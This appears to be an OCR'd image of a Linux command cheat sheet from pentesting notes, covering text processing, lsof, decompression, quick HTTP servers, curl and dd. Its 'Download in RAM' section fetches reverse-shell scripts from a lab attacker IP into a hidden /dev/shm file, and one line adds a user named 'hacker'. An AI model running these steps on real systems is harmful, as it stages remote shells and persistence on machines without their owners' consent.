 ```bash
wc -l <file> #Lines
wc -c #Chars

#Sort
sort -nr #Sort by number and then reverse
cat file | sort | uniq #Sort and delete duplicates

#Replace in file
sed -i 's/OLD/NEW/g' path/file #Replace string inside a file

#Download in RAM
wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
curl 10.10.14.14:8000/shell.py -o /dev/shm/shell.py

#Files used by network processes
lsof #Open files belonging to any process
lsof -p 3 #Open files used by the process
lsof -i #Files used by networks processes
lsof -i 4 #Files used by network IPv4 processes
lsof -i 6 #Files used by network IPv6 processes
lsof -i 4 -a -p 1234 #List all open IPV4 network files in use by the process 1234
lsof +D /lib #Processes using files inside the indicated dir
lsof -i :80 #Files uses by networks processes
fuser -nv tcp 80

#Decompress
tar -xvzf /path/to/yourfile.tgz
tar -xvjf /path/to/yourfile.tbz
bzip2 -d /path/to/yourfile.bz2
tar jxf file.tar.bz2
gunzip /path/to/yourfile.gz
unzip file.zip
7z -x file.7z
sudo apt-get install xz-utils; unxz file.xz

#Add new user
useradd -p 'openssl passwd -1 <Password>' hacker

#Clipboard
xclip -sel c < cat file.txt

#HTTP servers
python -m SimpleHTTPServer 80
python3 -m http.server
ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 80, :DocumentRoot => Dir.pwd).start"
php -S $ip:80

#Curl
#json data
curl --header "Content-Type: application/json" --request POST --data '{"password":"password", "username":"admin"}' http://host:3000/endpoint
#Auth via JWT
curl -X GET -H 'Authorization: Bearer <JWT>' http://host:3000/endpoint

#Send Email
sendEmail -t to@email.com -f from@email.com -s 192.168.8.131 -u Subject -a file.pdf #You will be prompted for the content

#DD copy hex bin file without first X (28) bytes
dd if=file.bin bs=28 skip=1 of=blob

#Mount .vhd files (virtual hard drive)
```